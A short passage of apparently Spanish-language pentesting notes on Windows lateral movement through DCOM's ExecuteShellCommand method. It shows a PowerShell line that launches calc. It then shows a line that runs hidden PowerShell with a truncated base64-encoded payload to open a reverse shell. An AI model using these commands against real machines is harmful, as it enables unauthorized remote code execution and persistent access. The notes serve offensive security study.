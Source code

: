 	```powershell
	$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
	```
	Los agumentos son:  `Command`, `Directory`, `Parameters`, `WindowsState`, y solo nos interesan el primero y el tercero
- Podríamos ejecutar una revshell del siguiente modo: 
	```powershell
		$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAa...AHMAZQAoACkA","7")
	```